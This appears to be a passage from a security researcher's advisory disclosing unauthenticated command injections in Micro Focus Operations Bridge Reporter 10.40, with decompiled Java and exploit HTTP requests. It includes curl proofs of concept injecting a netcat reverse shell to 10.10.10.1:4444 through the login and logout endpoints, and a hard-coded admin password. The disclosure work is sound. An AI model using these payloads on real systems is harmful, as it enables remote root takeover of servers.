



# Multiple Vulnerabilities in Micro Focus Operations Bridge Reporter

### By Pedro Ribeiro (pedrib@gmail.com | [@pedrib1337](https://twitter.com/pedrib1337)) from [Agile Information Security](https://agileinfosec.co.uk)

#### Disclosure Date: 2021-03-02 | Last Updated: 2021-04-23

* [Introduction](#introduction)
* [Summary](#summary)
* [Vulnerability Details](#vulnerability-details)
    * [#1: Command Injection](#1-command-injection)
        * [1.1: Command Injection on <em>login</em>](#11-command-injection-on-login)
        * [1.2: Command Injection on <em>logout</em>](#12-command-injection-on-logout)
        * [1.3: Command Injection in <em>logonWithCertificate()</em>](#13-command-injection-in-logonwithcertificate)
        * [1.4: Command Injection in <em>logonWithToken()</em>](#14-command-injection-in-logonwithtoken)
        * [1.5: Command Injection in <em>changePassword()</em>](#15-command-injection-in-changepassword)
    * [#2: SQL Injection](#2-sql-injection)
    * [#3: Use of Hard-coded Credentials](#3-use-of-hard-coded-credentials)
    * [#4: Exposed Unauthenticated JMX endpoint](#4-exposed-unauthenticated-jmx-endpoint)
    * [#5: Incorrect Default Folder Permissions (resulting in Privilege Escalation to SYSTEM / root)](#5-incorrect-default-folder-permissions-resulting-in-privilege-escalation-to-system--root)
        * [#5.1: Windows](#51-windows)
        * [#5.2: Linux](#52-linux)
* [Fix / Solutions](#fix--solutions)

## Introduction
[Vendor description](https://docs.microfocus.com/itom/Operations_Bridge_Reporter:10.40/Concepts/Introduction/Product_Overview):  
*Operations Bridge Reporter (**OBR**) is a solution based on Big Data technology Vertica, and has been built to specifically address the challenges of reporting in dynamic IT environments. In addition to consolidating performance data and metrics from multiple domain-focused collectors, OBR also collects and collates specific information on the relationships between the IT elements and the business services. OBR provides sophisticated data collection and aggregation coupled with industry-leading report definition and generation capabilities.*

A demo version of this product can be downloaded [from the vendor's website](https://www.microfocus.com/en-us/products/it-reporting/download).

## Summary

Micro Focus Operations Bridge Reporter (**OBR**) is a complex product that is used to  aggregate data and generate performance reports collected from other enterprise software such as [Micro Focus Operations Manager](https://www.microfocus.com/en-us/products/operations-bridge-manager/overview), [Micro Focus Network Node Manager i](https://www.microfocus.com/en-us/products/network-node-manager-i-network-management-software/overview) and others.

The product itself is composed of:

* The OBR main application, which includes a Java Administrative Console
* SAP BusinessObjects (**SAP BO**), which has its own SQL Anywhere database
* Vertica Database
* Postgres Database

Components can be installed in separate hosts or in a single centralised one. They can be installed in both Windows and Linux operating systems, although the Vertica database must be installed in a Linux host. 
A typical installation, as recommended in the documentation, is to install all components in the same Linux host. 

The diagram below shows the components of the product and how it integrates into complex IT environments:



SAP BO seems to be the main "brain" of the product, as it contains the master authentication database that is queried by OBR when logging in the various portals and web applications. However, it is also a completely separate product, so it will not be evaluated here. This advisory focus exclusively on the OBR component and its databases.

OBR requires a lot of network ports to be opened in order to communicate with other hosts as it can be seen in their [installation documentation](https://docs.microfocus.com/OBR/10.40/OBR_Interactive_Installation/Content/_HPc_Interactive_Document.htm). This gives it a huge externally facing attack surface.

Administrators installing the product are advised that they must also disable *SELinux* in Linux and *UAC* in Windows, which is a red flag and should immediately raise eyebrows upon installation.

After analysing OBR, I found that it contains several critical security vulnerabilities that can be exploited by an unauthenticated attacker:

* **Command Injection on login / logout functionality** (5 of them, affecting Linux only) 
* SQL Injection (Windows and Linux)
* Use of Hard-coded Credentials (which results in remote code execution, Linux only)
* Exposed Unauthenticated JMX endpoint (resulting in unauthenticated remote code execution in Windows and Linux)
* Incorrect Default Folder Permissions (resulting in Privilege Escalation to SYSTEM on Windows and root in Linux)

All of these vulnerabilities affect version 10.40 and possibly earlier versions.

In essence, OBR is a catastrophe in terms of security. A product with a huge attack surface, with terribly insecure defaults and horrible security mistakes. 
  
The vulnerabilities described in this advisory are hilarious, and belong in textbooks, not in enterprise security software.

Please also check my [companion advisory](https://github.com/pedrib/PoC/blob/master/advisories/Micro_Focus/Micro_Focus_OBM.md) for another related Micro Focus product, Micro Focus Operations Bridge Manager.

## Vulnerability Details

### #1: Command Injection
* [CWE-78: OS Command Injection](https://cwe.mitre.org/data/definitions/78.html)
* [CVE-2021-22502](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22502)
* Risk Classification: Critical
* Attack Vector: Remote
* Constraints: None / N/A
* Affected Products / Versions:
  * Micro Focus Operations Bridge Reporter 10.40 (earlier versions likely affected)

#### 1.1: Command Injection on *login*
* [ZDI-21-153](https://www.zerodayinitiative.com/advisories/ZDI-21-153/)

As discussed previously, the product exposes a lot of network ports, and several web applications that function in a semi-independent fashion. The main OBR console is a web application listening on ports TCP 21412 (HTTP) / 21412 (HTTPS), and a user can login and authenticate to it by sending an HTTP POST request to */AdminService/urest/v1/LogonResource*:

```
POST /AdminService/urest/v1/LogonResource HTTP/1.1
Host: mfobr.nat:21412
Content-Type: application/json
Content-Length: 69

{"userName":"administrator","credential":"password"}
```

With a valid response being:  
```
HTTP/1.1 201 Created
Content-Type: application/json
Content-Length: 289
Date: Sat, 02 May 2020 15:55:14 GMT
Connection: close
Server: SHR

{
  "href" : "https://mfobr.nat:21412/AdminService/urest/v1/LogonResource",
  "logonResource" : {
    "timeToChangePassword" : "false",
    "logonToken" : "Y2VudG9zNy5uYXQ6NjQwMEA1ODgwSmt2VzhqaFhmZkp3M3JMcXVzSERNNUlVVzZ3RG1rb3NSNTg3OEoySlQ1eEt5WEFMZXRDaFZCbDZ5Y0xhUHRnYmRSSEJRdg=="
  }
}
```

The code that handles this request is in the *AuthenticationController* class:

```java
@Path(value="/urest/v1/LogonResource")
public class AuthenticationController
extends BaseController {
	private AuthenticationManager logon = AuthenticationManager.getInstance();

	@POST
	@Produces(value={"application/json"})
	@Consumes(value={"application/json"})
	public Response login(@Context UriInfo info, @Valid @ConvertGroup(from=Default.class, to=Login.class) Authenticator auth) throws ValidateException, AuthenticationException {
		try {
			Authenticator authenticator = this.logon.getToken(auth);
			System.out.println("Successfully logged-in");
			return AuthenticationController.getResponse(MediaType.APPLICATION_JSON_TYPE, HttpStatus.CREATED, new AuthenticationResource(info, authenticator));
		}
		catch (Throwable e) {
			if (e instanceof AuthenticationException) {
				if (((AuthenticationException)e).getAppCode() == null) {
					throw new AuthenticationException(e.getMessage(), "AUTHENTICATION_FAILED");
				}
				throw new AuthenticationException(e.getMessage(), ((AuthenticationException)e).getAppCode());
			}
			throw new AdminRestException(e.getMessage(), "AUTHENTICATION_FAILED");
		}
	}
```
> Snippet 1: *AuthenticationController.login()*

As shown in the code above, this invokes *AuthenticationController.getToken()*:

```java
	public Authenticator getToken(Authenticator auth) throws Throwable {
(...)
		try {
			if (auth.getIsSSO() == null) return this.getTokenBasic(auth);
			if (auth.getIsSSO() != true) return this.getTokenBasic(auth);
			return this.getTokenCertBased(auth);
		}
		catch (Exception e) {
			this.loggerBsmr.error((Object)("Failed to authenticate user: " + e.getLocalizedMessage()));
			this.loggerBsmr.debug((Object)e.getMessage(), (Throwable)e);
			throw e;
		}
	}
```
> Snippet 2: *AuthenticationController.getToken()*

Which in turn invokes *AuthenticationController.getTokenBasic()*:

```java
	public Authenticator getTokenBasic(Authenticator auth) throws Throwable {
		String userName = auth.getUserName();
		String password = auth.getCredential();
		String clientCompName = auth.getClientCompName();
		if (clientCompName == null) {
			clientCompName = "";
		}
		if (!(userName != null && userName != "" || password != null && password != "")) {
			throw new AuthenticationException("", "ADMIN_USER_PASS_REQ");
		}
		if (userName == null || userName == "") {
			throw new AuthenticationException("", "ADMIN_USER_REQ");
		}
		if (password == null || password == "") {
			throw new AuthenticationException("", "ADMIN_PASS_REQ");
		}
		AuthenticationManager authorize = AuthenticationManager.getInstance();
		String tokenGenerated = authorize.logonWithUserNamePassword(userName, password, clientCompName);
		if (tokenGenerated == null) {
			throw new AuthenticationException("ERROR_TOKEN_GENERATION");
		}
		this.authenticator = new Authenticator();
		BSMRPropertyUtil prop = new BSMRPropertyUtil();
		this.authenticator.setToken(new String(Base64.encode((byte[])tokenGenerated.toString().getBytes())));
		this.authenticator.setTimeToChangePassword(prop.getProperty(SecurityConstant.TIME_TO_CHANGE_PASSWORD, "true"));
		return this.authenticator;
	}
```
> Snippet 3: *AuthenticationController.getTokenBasic()*

As shown above, this invokes *AuthenticationManager.logonWithUserNamePassword()*:

```java
	public String logonWithUserNamePassword(String username, String password, String clientCompName) {
		if (!this.isUserAllowed(username, password)) {
			return null;
		}
		BasicAuthentication basicauth = new BasicAuthentication();
		String generatedToken = basicauth.generateToken(username, password, clientCompName);
		SimpleDateFormat dateFormat = new SimpleDateFormat("yyyy/MM/dd HH:mm:ss");
		Calendar cal = Calendar.getInstance();
		map.put(generatedToken, dateFormat.format(cal.getTime()));
		return generatedToken;
	}
```
> Snippet 4: *AuthenticationManager.logonWithUserNamePassword()*

Let's continue down the rabbit hole and look at the invocation of *AuthenticationManager.isUserAllowed()*:

```java
	private boolean isUserAllowed(String username, String password) {
		boolean isAllowed = false;
		FileInputStream fis = null;
		BOLoginCredential credential = null;
		try {
			BOAuthenticator boa = new BOAuthenticator();
			fis = new FileInputStream(new File(this.bsmrConfigFile));
			this.properties.load(fis);
			String cms = this.properties.getProperty(SecurityConstant.BO_CMS);
			String authType = this.properties.getProperty(SecurityConstant.BO_AUTH_TYPE);
			credential = new BOLoginCredential(username, password, cms, authType);
			if (credential instanceof BOLoginCredential) {
				BOLoginCredential blc = credential;
				String pass = EncryptionUtility.encryptString((String)password);
				String command = null;
				command = username.contains("\"") ? "BOAdapter -login -username " + username + " -password " + pass + " -cms " + cms + " -authType " + authType : "BOAdapter -login -username \"" + username + "\"" + " -password " + pass + " -cms " + cms + " -authType " + authType;
				PlatformCommandExecutor cmd = new PlatformCommandExecutor(command);
				cmd.execute();
				int exit = cmd.getExitValue();
				String message = cmd.getMessage();
				if (exit == 0) {
					isAllowed = true;
					return isAllowed;
				}
			}
		}
		catch (Exception e) {
			return false;
		}
		return false;
	}
```
> Snippet 5: *AuthenticationManager.isUserAllowed()*

And what do we have here? The purpose of this function is to invoke *BOAdapter*, which seems to be a BO application that checks authorization and validates authentication requests.

However it seems like the command string is being built with the contents of *username* and *credential* (password) parameters provided by the attacker in the POST request to */AdminService/urest/v1/LogonResource*! 

To dig further, we look at *PlatformCommandExecutor.execute()*:

```java
public class PlatformCommandExecutor {
	public void execute() {
		log.debug((Object)("Executing command" + this.command));
		ArrayList<String> commandList = new ArrayList<String>();
		StringBuffer output = new StringBuffer();
		ProcessBuilder pb = null;
		if (BSMRSystemUtil.isLinuxOperatingSystem()) {
			pb = new ProcessBuilder("bash", "-c", this.command);
		} else {
			StringTokenizer tokens = new StringTokenizer(this.command);
			while (tokens.hasMoreTokens()) {
				String param = tokens.nextToken();
				commandList.add(param);
			}
			pb = new ProcessBuilder(commandList);
		}
		pb.redirectError();
		InputStream inStream = null;
		BufferedReader bufInputStream = null;
		try {
			String line;
			Process proc = pb.start();
			inStream = proc.getInputStream();
			bufInputStream = new BufferedReader(new InputStreamReader(inStream));
			while ((line = bufInputStream.readLine()) != null) {
				if (line.contains("PID:")) continue;
				output.append(line + "\n");
			}
			this.message = output.toString();
			proc.waitFor();
			this.exitValue = proc.exitValue();
			proc.destroy();
		}
		catch (Throwable e) {
			this.exitValue = -1;
			this.message = e.getMessage();
		}
		finally {
			try {
				if (bufInputStream != null) {
					bufInputStream.close();
				}
				if (inStream != null) {
					bufInputStream.close();
				}
			}
			catch (IOException e) {}
		}
		log.info((Object)("Command Execution Completed, exitValue = " + this.exitValue + ", Message = " + this.message));
(...)
```

> Snippet 6: *PlatformCommandExecutor.execute()*

And finally here we have, in full glory, our command injection. Unfortunately for the attacker this only works in Linux due to the use of *ProcessBuilder*. 

If the operating system is Linux, *ProcessBuilder* will be invoked with *"bash -c"*, meaning we can easily inject shell metacharacters and execute our command.

However, if OBR is running on a Windows system, it will properly tokenize the arguments and invoke *ProcessBuilder* with an array of arguments. *ProcessBuilder* [works in a similar way to C's *execve*](https://docs.oracle.com/en/java/javase/11/docs/api/java.base/java/lang/ProcessBuilder.html): it will execute the first argument as a command and the rest as arguments.

If OBR is running in Linux, it is very easy for an unauthenticated attacker to achieve remote code execution as root. All that is needed is a request as shown below:

```
POST /AdminService/urest/v1/LogonResource HTTP/1.1
Host: mfobr.nat:21412
Content-Type: application/json
Content-Length: 69

{"userName":"something `whoami > /tmp/hehe`","credential":"whatever"}
```

The server will respond with *AUTHENTICATION_FAILED*:
```
HTTP/1.1 401 Unauthorized
Content-Type: application/json
Content-Length: 353
Date: Sun, 19 Apr 2020 20:36:57 GMT
Connection: close
Server: SHR

{
  "status" : 401,
  "code" : 401,
  "message" : "An error occurred. Please contact your system administrator",
  "developerMessage" : "An error occurred. Please contact your system administrator",
  "args" : "An error occurred. Please contact your system administrator",
  "moreInfo" : "mailto:support@hpe.com",
  "appCode" : "AUTHENTICATION_FAILED"
}
```

However our command will execute as:

```
BOAdapter -login -username something `whoami > /tmp/hehe` -password DF30F1CC12E738D97AB6CD32355CA1B1Z77092800A001308ACDF099CA2E6DAE2B -cms mfobr.nat -authType secEnterprise
```

With the result:

```
obruser@mfobr ~]$ cat /tmp/hehe
root
```

A proof of concept that spawns a reverse shell is trivial, we can even user *curl* command:

```
curl -i -s -k -X $'POST' \
    -H $'Host: mfobr.nat:21412' -H $'Content-Type: application/json' -H $'Content-Length: 76' \
    --data-binary $'{\"userName\":\"owned `nc -e /bin/bash 10.10.10.1 4444`\",\"credential\":\"whatever\"}' \
    $'https://10.10.10.123:21412/AdminService/urest/v1/LogonResource'
```

This will spawn a reverse shell running as root that will connect to 10.10.10.1:4444. 
You can view the attack in full glory in this asciinema cast:
[](https://asciinema.org/a/395851)

#### 1.2: Command Injection on *logout*
* [ZDI-21-154](https://www.zerodayinitiative.com/advisories/ZDI-21-154/)

Not only we have an unauthenticated command injection as root when logging in, but we have another one on logout! 

When a user wants to logout, they send an HTTP DELETE request to */AdminService/urest/v1/LogonResource*:

```
DELETE /AdminService/urest/v1/LogonResource HTTP/1.1
Host: mfobr.nat:21412
Token: dGhpc2lzYWZha2V0b2tlbiAg
```

To understand how it is processed, we have to look again at *AuthenticationController*, but this time at the *logout()* method:

```java
@Path(value="/urest/v1/LogonResource")
public class AuthenticationController
extends BaseController {
	private AuthenticationManager logon = AuthenticationManager.getInstance();

	@DELETE
	@Produces(value={"application/json"})
	public Response logout(@Context UriInfo info, @ValidVarChar @HeaderParam(value="Token") String token) {
		try {
			return AuthenticationController.getResponse(MediaType.APPLICATION_JSON_TYPE, HttpStatus.OK, (Object)this.logon.releaseToken(token));
		}
		catch (Throwable e) {
			if (e instanceof AuthenticationException) {
				if (((AuthenticationException)e).getAppCode() == null) {
					throw new AuthenticationException(e.getMessage(), "AUTHENTICATION_FAILED");
				}
				throw new AuthenticationException(e.getMessage(), ((AuthenticationException)e).getAppCode());
			}
			throw new AdminRestException(e.getMessage(), "AUTHENTICATION_FAILED");
		}
	}
}
```

> Snippet 7: *AuthenticationController.logout()*

Following on, it invokes *AuthenticationManager.releaseToken()*:

```java
	public Status releaseToken(String token) throws Throwable {
		token = new String(Base64.decode((byte[])token.toString().getBytes()));
		Status status = new Status();
		try {
			String command = "BOAdapter -releaseToken  -token " + token;
			PlatformCommandExecutor cmd = new PlatformCommandExecutor(command);
			cmd.execute();
			int exit = cmd.getExitValue();
			String message = cmd.getMessage();
			if (exit != 0) {
				System.out.print("Unable to login " + message);
				throw new Exception("Error releasing the token " + message);
			}
			this.loggerBsmr.debug((Object)("Token is getting generated " + token + " and updated BO With the new password in releaseToken method. " + message));
			this.fis = new FileInputStream(new File(this.bsmrConfigFile));
			this.properties.load(this.fis);
			String loginMethod = this.properties.getProperty(SecurityConstant.SHR_LOGIN_METHOD);
			if (loginMethod.toLowerCase().trim().equals("default")) {
				if (new String(Base64.decode((byte[])this.authenticator.getToken().getBytes())).equals(token)) {
					this.authenticator = null;
				}
				for (Map.Entry<String, String> pair : map.entrySet()) {
					if (!pair.getKey().toString().equals(token)) continue;
					map.remove(token);
					break;
				}
				status.setMessage("SUCCESS");
				return status;
			}
			if (loginMethod.toLowerCase().trim().equals("certbased")) {
				if (new String(Base64.decode((byte[])this.authenticateCert.getToken().getBytes())).equals(token)) {
					this.authenticateCert = null;
				}
				for (Map.Entry<String, String> pair : mapCert.entrySet()) {
					if (!pair.getKey().toString().equals(token)) continue;
					mapCert.remove(token);
					break;
				}
				status.setMessage("SUCCESS");
				return status;
			}
		}
		catch (Exception e) {
			this.loggerBsmr.error((Object)("Error releasing the token" + e.getLocalizedMessage()));
			this.loggerBsmr.debug((Object)e.getMessage(), (Throwable)e);
			throw e;
		}
		return null;
	}

```

> Snippet 8: *AuthenticationManager.releaseToken()*

Which again invokes our friend *PlatformCommandExecutor.execute()*, with the *Token* header we passed in the HTTP POST request, resulting in another unauthenticated remote code execution as root!

However, there is a (big) catch. Our command has to be passed in the *Token* header base 64 encoded, but the application will perform some validation on it. As seen in *Snippet 7*, the header is converted to a *ValidVarChar*. This type i shown below:

```java
@Pattern(regexp="^[a-zA-Z0-9\\_\\-\\.\\@\\/]*$", message="{INVALID_VARCHAR}")
@NotNull(message="{INVALID_VARCHAR}")
@Size(min=1, max=255, message="{INVALID_VARCHAR}")
@Documented
@Constraint(validatedBy={})
@Target(value={ElementType.PARAMETER, ElementType.FIELD})
@Retention(value=RetentionPolicy.RUNTIME)
public @interface ValidVarChar {
	public String message() default "INVALID_VARCHAR";

	public Class<?>[] groups() default {};

	public Class<? extends Payload>[] payload() default {};
}
```

> Snippet 9: *ValidVarChar*

Weirdly, this has a major bug: even though '=' and '+' are valid base 64 encoding characters, they are not accepted by the regular expression validating it!

This means that the command we have to inject has to be carefully base 64 encoded to not have such characters.

For example if we want to inject:

```
`whoami>/tmp/who`
```

This will be encoded to *YHdob2FtaT4vdG1wL3dob2A=*, which contains a '=' character, and therefore will be rejected by the application before it reaches the injection point. But if we add a space after 'who':

```
`whoami>/tmp/who `
```

... it will be encoded to *YHdob2FtaT4vdG1wL3dobyBg*, which executes the same command but does not have any "illegal" characters.

To perform the command injection we put the base 64 string in the *Token* header and send the HTTP request:

```
DELETE /AdminService/urest/v1/LogonResource HTTP/1.1
Host: mfobr.nat:21412
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://mfobr.nat:21412/OBRApp/
Token: YHdob2FtaT4vdG1wL3dobyBg
Connection: close
```

The server will respond with HTTP 500 error:

```
HTTP/1.1 500 Internal Server Error
Content-Type: application/json
Content-Length: 353
Date: Sun, 19 Apr 2020 21:09:23 GMT
Connection: close
Server: SHR

{
  "status" : 500,
  "code" : 500,
  "message" : "An error occurred. Please contact your system administrator",
  "developerMessage" : "An error occurred. Please contact your system administrator",
  "args" : "An error occurred. Please contact your system administrator",
  "moreInfo" : "mailto:support@hpe.com",
  "appCode" : "AUTHENTICATION_FAILED"
}
```

But our injection was executed, and the command ran as:

```
BOAdapter -releaseToken -token `whoami>/tmp/who `
```

Which results in another unauthenticated command injection as root:

```
[obruser@mfobr logs]$ cat /tmp/who
root
```

The proof of concept is so simple that again it fits in a *curl* command:

```
curl -i -s -k -X $'DELETE' \
    -H $'Host: mfobr.nat:21412' -H $'Token: YG5jIC1lIC9iaW4vYmFzaCAxMC4xMC4xMC4xIDQ0NDRg' \
    $'https://mfobr.nat:21412/AdminService/urest/v1/LogonResource'
```

As last time, this will spawn a root reverse shell to 10.10.10.1:4444.

You can view the attack in full glory in this asciinema cast:
[](https://asciinema.org/a/395852)


#### 1.3: Command Injection in *logonWithCertificate()*

But wait, we're not done yet! Turns out the *AuthenticationManager* class is a gold mine for command injections. The next one is in *AuthenticationManager.logonWithCertificate()*:

```java
	public String logonWithCertificate(String username, String sharedSecret, String clientCompName) {
		if (!this.isUserAllowedForCertBased(username, sharedSecret)) {
			return null;
		}
		BasicAuthentication basicauth = new BasicAuthentication();
		String generatedToken = basicauth.generateTokenCert(username, clientCompName, sharedSecret);
		SimpleDateFormat dateFormat = new SimpleDateFormat("yyyy/MM/dd HH:mm:ss");
		Calendar cal = Calendar.getInstance();
		mapCert.put(generatedToken, dateFormat.format(cal.getTime()));
		return generatedToken;
	}
```

> Snippet 10: *AuthenticationManager.logonWithCertificate()*

Let's follow on and check *AuthenticationManager.isUserAllowedForCertBased()*:

```java
	private boolean isUserAllowedForCertBased(String username, String sharedSecret) {
		boolean isAllowed = false;
		FileInputStream fis = null;
		BOTrustedLoginCredential credential = null;
		try {
			fis = new FileInputStream(new File(this.bsmrConfigFile));
			this.properties.load(fis);
			String cms = this.properties.getProperty(SecurityConstant.BO_CMS);
			String authType = this.properties.getProperty(SecurityConstant.BO_AUTH_TYPE);
			credential = new BOTrustedLoginCredential(username, cms, sharedSecret);
			if (credential instanceof BOTrustedLoginCredential) {
				String sharedSec = EncryptionUtility.encryptString((String)sharedSecret);
				String command = "BOAdapter -loginAuth -username \"" + username + "\"" + " -sharedSecret " + sharedSec + " -cms " + cms + " -authType " + authType;
				PlatformCommandExecutor cmd = new PlatformCommandExecutor(command);
				cmd.execute();
				int exit = cmd.getExitValue();
				if (exit == 0) {
					isAllowed = true;
				}
			}
		}
		catch (Exception e) {
			e.printStackTrace();
		}
		return isAllowed;
	}

```

> Snippet 11: *AuthenticationManager.isUserAllowedForCertBased()*

... and here we have another very clear command injection.


#### 1.4: Command Injection in *logonWithToken()*

And we're not done yet, there's ANOTHER command injection in *AuthenticationManager*, this time in *logonWithToken()*:

```java
public int logonWithToken() throws IOException {
		SimpleDateFormat dateFormat = new SimpleDateFormat("yyyy/MM/dd HH:mm:ss");
		String value = null;
		Calendar cal = Calendar.getInstance();
		try {
			this.fis = new FileInputStream(new File(this.bsmrConfigFile));
			this.properties.load(this.fis);
			String timeout = this.properties.getProperty(SecurityConstant.REST_TIMEOUT, Integer.toString(180));
			String sessionTimeout = this.properties.getProperty(SecurityConstant.SESSION_TIMEOUT, Integer.toString(20));
			String loginMethod = this.properties.getProperty(SecurityConstant.SHR_LOGIN_METHOD);
			if (loginMethod.toLowerCase().trim().equals("default")) {
				value = map.get(this.token);
			} else if (loginMethod.toLowerCase().trim().equals("certbased")) {
				value = mapCert.get(this.token);
			}
			Date time = cal.getTime();
			long timeDiff = dateFormat.parse(dateFormat.format(cal.getTime())).getTime() - dateFormat.parse(value).getTime();
			long diffMinutes = timeDiff / 60000L % 60L;
			if (value != null && (diffMinutes > (long)Integer.parseInt(timeout) || diffMinutes > (long)Integer.parseInt(sessionTimeout))) {
				Thread t = new Thread(AuthenticationManager.getInstance());
				t.start();
				t.setDaemon(true);
				return -1;
			}
			String command = "BOAdapter -logonWithToken  -token " + this.token;
			PlatformCommandExecutor cmd = new PlatformCommandExecutor(command);
			cmd.execute();
			int exit = cmd.getExitValue();
			String message = cmd.getMessage();
			if (exit != 0) {
				System.out.print("Unable to login " + message);
				throw new Exception("Error logging in with the token " + message);
			}
			this.loggerBsmr.debug((Object)("Token is getting generated " + this.token + " and updated BO With the new password in logonWithToken method. " + message));
			if (loginMethod.toLowerCase().trim().equals("default")) {
				map.put(this.token, dateFormat.format(cal.getTime()));
			} else if (loginMethod.toLowerCase().trim().equals("certbased")) {
				mapCert.put(this.token, dateFormat.format(cal.getTime()));
			}
			return 0;
		}
		catch (Exception e) {
			this.loggerBsmr.error((Object)("Error reading property file" + e.getLocalizedMessage()));
			this.loggerBsmr.debug((Object)e.getMessage(), (Throwable)e);
			throw new IOException("ERROR_LOGGING_WITH_TOKEN");
		}
	}
```

> Snippet 12: *AuthenticationManager.logonWithToken()*

Another very clear command injection, the same pattern as before.

#### 1.5: Command Injection in *changePassword()*

The final command injection is in *AuthenticationManager.changePassword()*:

```java
public Status changePassword(Authenticator auth) throws Throwable {
		Status status = new Status();
		String userName = null;
		String oldPassword = null;
		String newPassword = null;
		String confirmNewPassword = null;
		String encryptedOldPassword = null;
		String encryptNewPassword = null;
		boolean propFileUpdated = false;
		try {
			String authType;
			userName = auth.getUserName();
			oldPassword = auth.getPassword();
			newPassword = auth.getNewPassword();
			confirmNewPassword = auth.getConfirmNewPassword();
			encryptedOldPassword = EncryptionUtility.encryptString((String)oldPassword);
			encryptNewPassword = EncryptionUtility.encryptString((String)newPassword);
			if (!(userName != null && userName != "" || oldPassword != null && oldPassword != "" || newPassword != null && newPassword != "" || confirmNewPassword != null && confirmNewPassword != "")) {
				throw new AuthenticationException("", "ADMIN_USER_PASS_REQ");
			}
			if (userName == null || userName == "") {
				throw new AuthenticationException("", "ADMIN_USER_REQ");
			}
			if (oldPassword == null || oldPassword == "") {
				throw new AuthenticationException("", "ADMIN_PASS_REQ");
			}
			if (newPassword == null || newPassword == "") {
				throw new AuthenticationException("", "NEW_ADMIN_PASS_REQ");
			}
			if (confirmNewPassword == null || confirmNewPassword == "") {
				throw new AuthenticationException("", "ADMIN_CONFIRM_PASS_REQ");
			}
			if (userName.equalsIgnoreCase("Administrator") && oldPassword.equals("1ShrAdmin") && AuthenticationManager.checkifPasswordChanged()) {
				this.fis = new FileInputStream(new File(this.bsmrConfigFile));
				this.properties.load(this.fis);
				if (!newPassword.equalsIgnoreCase(confirmNewPassword)) {
					throw new AuthenticationException("", "PASSWORD_MISMATCH");
				}
				authType = this.properties.getProperty("bo.authType", "secEnterprise");
				String boHostName = this.properties.getProperty("bo.cms", "localhost");
				String command = "BOAdapter -changeAdminPassword -username " + userName + " -password " + encryptedOldPassword + " -cms " + boHostName + " -authType " + authType + " -newPassword " + encryptNewPassword;
				PlatformCommandExecutor cmd = new PlatformCommandExecutor(command);
				cmd.execute();
  (...)
		finally {
			if (!propFileUpdated) {
				this.loggerBsmr.error((Object)"Reverting to old password...");
				String authType = this.properties.getProperty("bo.authType", "secEnterprise");
				String boHostName = this.properties.getProperty("bo.cms", "localhost");
				String command = "BOAdapter -changeAdminPassword -username " + userName + " -password " + encryptNewPassword + " -cms " + boHostName + " -authType " + authType + " -newPassword " + encryptedOldPassword;
				PlatformCommandExecutor cmd = new PlatformCommandExecutor(command);
				cmd.execute();
				int exit = cmd.getExitValue();
				String message = cmd.getMessage();
				if (exit == 0) {
					this.loggerBsmr.debug((Object)("Successfully reverted BO Password change since config.prp update had issues: " + message));
				} else {
					this.loggerBsmr.debug((Object)("Password changed successfully but,failed to update property file : " + message));
					throw new AuthenticationException("", "BO_PASS_CHANGE_REVERT_FAILURE");
				}
			}
		}
	}
```

> Snippet 12: *AuthenticationManager.changePassword()*

The very same pattern we have seen before. That's the last of the unauthenticated command injections as root in *AuthenticationManager*.


### #2: SQL Injection
* [CWE-89: SQL Injection](https://cwe.mitre.org/data/definitions/89.html)
* No CVE Assigned
